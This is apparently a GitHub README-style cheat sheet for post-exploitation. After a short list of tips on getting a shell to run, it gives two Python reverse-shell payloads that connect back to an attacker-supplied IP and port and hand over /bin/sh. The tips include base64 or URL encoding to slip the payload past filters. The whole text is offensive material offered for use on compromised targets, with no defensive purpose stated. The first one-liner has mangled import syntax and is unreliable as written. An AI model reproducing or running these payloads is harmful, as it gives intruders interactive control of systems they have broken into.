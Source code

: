 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 
4. Encode your script using url encode 
5. Check the compiler 

## Script 1 

```
socket=_import("socket");os=import("os");pty=import_("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT LISTENER>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

## Script 2

```
import socket
import subprocess
import os

def back_connect(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    os.dup2(s.fileno(), 0)  
    os.dup2(s.fileno(), 1)  
    os.dup2(s.fileno(), 2)  
    
    subprocess.call(["/bin/sh", "-i"])

host = "<YOUR IP>"  
port = <YOUR LISTENER PORT>           

back_connect(host, port)
```
